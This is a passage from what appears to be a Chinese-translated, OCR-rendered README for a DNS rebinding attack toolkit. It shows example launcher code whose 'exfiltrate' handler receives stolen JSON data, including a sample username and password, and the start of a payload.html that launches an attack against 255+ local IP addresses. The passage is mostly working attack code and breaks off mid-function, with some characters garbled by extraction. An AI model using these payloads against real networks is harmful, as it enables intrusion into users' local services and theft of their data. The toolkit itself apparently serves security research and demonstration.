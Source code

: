 ```
        `}`)

        rebind.nodes.on('exfiltrate', (ip, data) =&gt; `{`
            // JSON data was exfiltrated and saved to the data/
            // folder on the remote machine hosting server.js

            console.log('node exfiltrate', ip, data)

            // data = `{`
            //     "username": "crashOverride",
            //     "password": "hacktheplanet!",
            // `}`
        `}`)
    `}`
    &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```

### **payload.html**

下面是一个示例HTML有效负载文件。您可以在[`examples/payload.html`](https://github.com/brannondorsey/dns-rebind-toolkit/blob/master/examples/payload.html)中找到完整的文档。

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;Example Payload&lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;!--
Load the DNSRebindNode. This static class is used to launch the rebind
attack and communicate with the DNSRebindAttack instance in example-launcher.html
--&gt;
&lt;script type="text/javascript" src="/share/js/DNSRebindNode.js"&gt;&lt;/script&gt;
&lt;script type="text/javascript"&gt;

    attack()
    .then(() =&gt; `{``}`,
          err =&gt; `{`
              // there was an error at some point during the attack
              console.error(err)
              DNSRebindNode.emit('fatal', err.message)
          `}`
    ) // remove this iframe by calling destroy()
    .then(() =&gt; DNSRebindNode.destroy())

    // launches the attack and returns a promise that is resolved if the target
    // service is found and correctly exploited, or more likely, rejected because
    // this host doesn't exist, the target service isn't running, or something
    // went wrong with the exploit. Remember that this attack is being launched
    // against 255+ IP addresses, so most of them won't succeed.
    async function attack() `{`

        // DNSRebindNode has some default fetch options that specify things
        // like no caching, etc. You can re-use them for convenience, or ignore
        // them and create your own options object for each fetch() request.
        // Here are their default values:
        // `{`
        //     method: "GET",
        //     headers: `{`
        //         // this doesn't work in all browsers. For instance,
        //         // Firefox doesn't let you do this.
```